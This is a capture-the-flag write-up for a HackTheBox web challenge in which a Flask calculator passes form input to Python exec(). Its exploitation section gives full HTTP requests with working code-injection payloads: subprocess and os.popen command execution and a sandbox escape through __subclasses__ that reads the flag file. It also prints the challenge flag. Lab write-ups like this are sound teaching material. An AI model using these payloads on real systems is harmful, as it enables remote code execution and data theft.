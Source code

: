 ```yaml
---
Category:
  - Web
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - code-review
  - command-injection
  - jail-escape
  - python-exec
  - flask
---
```

>[!quote]
> aw man, aw geez, my grandpa rick is passed out from all the drinking again, where is a calculator when you need one, aw geez****


## Information Gathering

Home page generates random numbers any time is refreshed:

![Pasted image 20210908155550.png](Pasted_image_20210908155550.png)

![Pasted image 20210908155626.png](Pasted_image_20210908155626.png)

Source code contains a `/debug` comments suggesting the presence of a `/debug` endpoint:

![Pasted image 20210908155816.png](Pasted_image_20210908155816.png)

![Pasted image 20210908155859.png](Pasted_image_20210908155859.png)

## The bug

Applications uses `exec()` in order to assign garage's attributes:

```python
def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass

...

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def federation(*args, **kwargs):
		ingredient = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))
	...
	calc(recipe)
```

However it accepts user supplied input when sending POST data:

```python
if request.method == 'POST':
			ingredient = request.form.get('ingredient', '')
			recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
		...
		if garage.get(ingredient, ''):
			return render_template('index.html', calculations=garage[ingredient])
...
@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')
```

HTTP request (remember to set `Content-type: application/x-www-form-urlencoded`) [^1]

[^1]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST

```
POST / HTTP/1.1
Host: 46.101.23.188:31846
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: io=3835ca78e28842b3a4d2cf1eec9b8d51; session=eyJhdXRoZW50aWNhdGlvbiI6InVzZXJFQkNkZUFlYSJ9.YR1RRg.g4eore-ZESRjkoTFp6WI8fQwsXI
Upgrade-Insecure-Requests: 1
Content-Length: 34
Content-type: application/x-www-form-urlencoded

ingredient=test&measurements=10099
```

HTTP response:

![Pasted image 20210908161858.png](Pasted_image_20210908161858.png)

## Exploitation

Because user supplied input is passed to the `exec()` function [^2] it is possible to send arbitrary python code that will be evaluated and executed:

[^2]: https://www.programiz.com/python-programming/methods/built-in/exec

```
POST / HTTP/1.1
Host: 46.101.23.188:31846
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: io=3835ca78e28842b3a4d2cf1eec9b8d51; session=eyJhdXRoZW50aWNhdGlvbiI6InVzZXJFQkNkZUFlYSJ9.YR1RRg.g4eore-ZESRjkoTFp6WI8fQwsXI
Upgrade-Insecure-Requests: 1
Content-Length: 72
Content-type: application/x-www-form-urlencoded

ingredient=test&measurements=__import__('subprocess').check_output('ls')
```

![Pasted image 20210908162344.png](Pasted_image_20210908162344.png)

HTTP Request (payload from HackTricks [^3]):

[^3]: https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes

```
POST / HTTP/1.1
Host: 46.101.23.188:31846
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: io=3835ca78e28842b3a4d2cf1eec9b8d51; session=eyJhdXRoZW50aWNhdGlvbiI6InVzZXJFQkNkZUFlYSJ9.YR1RRg.g4eore-ZESRjkoTFp6WI8fQwsXI
Upgrade-Insecure-Requests: 1
Content-Length: 90
Content-type: application/x-www-form-urlencoded

ingredient=test&measurements=().__class__.__bases__[0].__subclasses__()[40]('flag').read()
```

Also `__import__("os").popen("cat flag").read()` is a valid payload

![Pasted image 20210908163039.png](Pasted_image_20210908163039.png)

## Flag

>[!success]
>`HTB{n3v3r_trust1ng_us3r_1nput_ag41n_1n_my_l1f3}`
